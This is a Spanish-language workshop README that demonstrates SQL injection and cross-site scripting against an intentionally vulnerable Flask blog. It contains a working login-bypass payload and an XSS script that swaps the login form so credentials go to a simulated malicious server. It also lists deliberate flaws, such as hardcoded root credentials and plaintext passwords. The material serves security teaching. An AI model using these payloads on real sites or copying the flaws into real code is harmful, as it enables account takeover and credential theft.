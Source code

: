 # TallerCiberseguridad

Este taller pretende mostrar con ejemplos algunas técnicas usadas para explotar debilidades de seguridad, concretamente en qué consiste el **SQLInjection** y el **Cross Site Scripting**.

# Advertencia:

Con la finalidad de mostrar estos datos, hemos recurrido a varias irregularidades en el código, como pueden ser:

* No escapar el texto que nos llega en una petición (a través del cual luego haremos **XSS**).
* Componer la query **SQL** concatenando textos, en lugar de hacer uso de los **prepared statements**.
* No estamos cifrando las claves de los usuarios en las bases de datos.
* La conexión a la base de datos hace uso de usuario y contraseña, hardcodeados en el código.
* Hemos subido a un repositorio público el **secret** de nuestra aplicación.

# Dependencias

Vienen indicadas en el fichero **requirements**, son los módulos **flask** y **pymysql**. Puedes instalarlos con **pip**

```bash 
pip install flask
pip install pymysql
``` 

# Preparación

Se necesita una base de datos MySQL en local, con usuario **root** con contraseña **root** (podemos usar otra base de datos y/o usuario, contraseña, siempre que lo modifiquemos en el código), sobre la que ejecutaremos el siguiente código:

```sql
create database usuarios
create table usuarios (email varchar(64), clave varchar(32), created timestamp default CURRENT_TIMESTAMP, primary key (email));
insert into usuarios (email, clave) values ('misterio@raro.sa','123abc');
insert into usuarios (email, clave) values ('vegeta@gmail.com','777');
``` 

# Desarrollo

## 1- Levantar el servidor 

Ejecutamos el proceso **ServerBlog.py**. Para ello la base de datos debe estar corriendo.

## 2- Mostrar la página

Se muestra el uso general de la página, que obliga a hacer login para poder publicar comentario.

Existen dos usuarios, usaremos el usuario **vegeta@gmail.com** con contraseña **777** para mostrar que se puede publicar un comentario.

## 3- Ahora nos saltamos la seguridad

Posteriormente nos conectaremos como otro usuario cuya contraseña (supuestamente) no conocemos, el usuario **misterio@raro.sa** y como contraseña realizaremos el **SQLInjection**. Para ello escribiremos lo siguiente como contraseña:

```sql
' or 1=1  -- '
``` 

## 4- Y ahora nos toca robar datos

Ejecutamos el segundo servidor, **fakeServer.py**. Esto simula ser un servidor maligno creado para robar datos.

Nos autenticamos usando lo visto en el punto anterior, y añadimos un comentario haciendo uso de una vulnerabilidad de *XSS*.

```html
<script type="text/javascript">
var temp = document.getElementById("loginFrame");
delete temp.src;
temp.srcdoc='<!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <title>Cutre Login</title></head><body><form action="http://127.0.0.1:5005/validateLogin" id="formLogin" method="POST">  <label for="user">user:</label>  <input type="text" id="user" name="user"><br><br>  <label for="pass">pass:</label>  <input type="password" id="pass" name="pass"><br><br>  <input type="submit" value="Submit"></form></body></html>';
</script>
``` 

Al hacerlo, sin que se vea en el código fuente, hemos cambaido el formulario de login, para hacer que apunte a nuestro servidor maligno. 

Intentamos logarnos con unos datos cualquiera, y mostramos cómo el servidor maligno ha capturado los datos.



